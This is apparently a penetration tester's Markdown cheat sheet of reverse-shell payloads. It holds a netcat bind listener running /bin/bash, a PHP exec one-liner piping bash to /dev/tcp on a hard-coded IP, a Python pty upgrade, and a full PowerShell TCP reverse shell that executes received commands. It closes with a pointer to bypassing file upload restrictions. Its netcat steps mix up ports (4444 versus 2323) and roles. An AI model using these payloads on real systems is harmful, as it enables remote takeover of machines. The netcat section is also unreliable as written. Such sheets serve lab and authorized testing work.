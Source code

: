 # Reverse Shells

## Linux
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

- ### netcat

  1. Start listener on attacker machine
      
	  - cache sudo credentials and start listener in background:

		    sudo echo test
			sudo nc -l -p 4444 -e /bin/bash &
  
      - verify listener is running:

		    netstat -vat -p 2323 
  
  2. Connect to listener from target machine
	         
	     nc <target_address> 2323
		
- ### PHP
	
	  <?php exec("/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.49.134/9999 0>&1 2>&1'"); ?>
	 - Note: 2>&1 gives error messages

- ### Get full TTY shell
	
  1. Spawn bash shell
	
	     python3 -c 'import pty; pty.spawn("/bin/bash")'
	
  2. Get full TTY shell 
		
		 ctrl-z
		 stty raw -echo
		 fg
		 enter
		 enter
		 export TERM=screen

## Windows
https://book.hacktricks.xyz/shells/shells/windows
	
- Powershell
		
	  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
		
## Bypassing File Upload Restrictions
https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/
	